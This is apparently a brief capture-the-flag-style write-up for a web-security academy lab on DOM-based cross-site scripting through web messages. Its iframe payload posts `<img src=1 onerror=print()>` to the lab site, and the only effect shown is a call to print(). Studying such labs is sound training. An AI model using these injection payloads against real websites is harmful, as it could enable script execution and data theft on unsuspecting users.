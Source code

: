 # DOM XSS using web messages

## This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

### HINT:

```html
<iframe
  src="//vulnerable-website"
  onload="this.contentWindow.postMessage('print()','*')"
></iframe>
```

![](images/lab1_object_object_window.addEventListner.jpg)

add `<img src=1 onerror=print()>` to perform

```html
<iframe
  src="https://0a7000e704ee6ee682ca660800d9002d.web-security-academy.net/"
  onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')"
>
</iframe>
```

![](images/lab1_onerror.jpg)

